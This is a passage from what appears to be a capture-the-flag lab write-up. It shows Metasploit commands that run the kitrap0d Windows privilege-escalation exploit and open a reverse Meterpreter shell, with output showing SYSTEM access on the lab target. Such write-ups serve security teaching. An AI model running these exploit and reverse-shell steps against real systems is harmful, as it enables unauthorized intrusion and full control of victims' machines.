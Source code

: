 ```
   0   Windows 2K SP4 - Windows 7 (x86)

```

Despite the fact that I didn’t set a payload, Meterpreter sets one for me. That’s nice, until it uses my eth0 IP address instead of my tun0 address. So when the exploit runs and succeeds, it’s trying to call to an IP it has no route to.

If I fix that, and run again, I get a shell:

```

msf5 exploit(windows/local/ms10_015_kitrap0d) > set lhost tun0
lhost => tun0
msf5 exploit(windows/local/ms10_015_kitrap0d) > set lport 445
lport => 445
msf5 exploit(windows/local/ms10_015_kitrap0d) > run

[*] Started reverse TCP handler on 10.10.14.14:445
[*] Launching notepad to host the exploit...
[+] Process 3536 launched.
[*] Reflectively injecting the exploit DLL into 3536...
[*] Injecting exploit into 3536 ...
[*] Exploit injected. Injecting payload into 3536...
[*] Payload injected. Executing exploit...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (179779 bytes) to 10.10.10.5
[*] Meterpreter session 2 opened (10.10.14.14:445 -> 10.10.10.5:49159) at 2019-03-05 12:25:15 -0500

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM

```